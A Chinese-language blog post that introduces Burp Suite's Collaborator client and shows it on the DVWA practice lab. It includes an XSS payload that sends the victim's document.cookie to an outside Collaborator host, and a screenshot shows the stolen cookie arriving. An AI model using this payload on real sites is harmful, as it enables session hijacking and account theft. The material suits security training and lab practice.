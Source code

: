 ```yaml
---
title: 工具
categories: [工具]
comments: true
---
```


# 上海大学生网络安全大赛一些writeup

# Burpsuite的一个好玩的模块

## 前言

10月份的时候闲的无聊就在挖公益SRC，遇到了一个tomcat的站，然后在Freebuf找到了一个挖洞经验分享，他就用到了Burpsuite的这个模块。这里插个眼：https://www.freebuf.com/articles/web/247253.html

## 模块

首先打开burpsuite，点开左上角的Burp，看到我鼠标选到的Burp Collaborator client，这次分享的模块就是这个。



![image-20201207185635911](../assets/img/text/image-20201207185635911.png)

点开可以看到这样的一个界面

![image-20201207191113694](../assets/img/text/image-20201207191113694.png)

点击copy to clipboard复制到粘贴板得到：http://4y378itiod01ld6nfx93nq1rqiw8kx.burpcollaborator.net

访问看看会出现啥

![image-20201207202627526](../assets/img/text/image-20201207202627526.png)

出现了一串字符串，在看监听端有什么变化

![image-20201207202658829](../assets/img/text/image-20201207202658829.png)

可以看到监听到出现了一个HTTP的访问请求，那么肯定也能记录到一些参数请求，比如用户的cookie等。

## 实例

该测试主要利用DVWA靶场进行测试

![image-20201207204422139](../assets/img/text/image-20201207204422139.png)

![image-20201207204442664](../assets/img/text/image-20201207204442664.png)

可以看到我们的cookie

在输入框输入payload进行测试。

payload：

```
<script>location.href="http://4y378itiod01ld6nfx93nq1rqiw8kx.burpcollaborator.net?"+document.cookie</script>
```

![image-20201207204259899](../assets/img/text/image-20201207204259899.png)

可以看到这边接收到了XSS弹过来的请求，获取到了用户的COOKIE



## 后记

这边的实例只是给出一个简单的利用方法，不固定攻击方法，如果有师傅有好的建议或者更加奇妙的利用姿势，也可以分享分享，可以去博客园评论我https://www.cnblogs.com/XCCCCCC/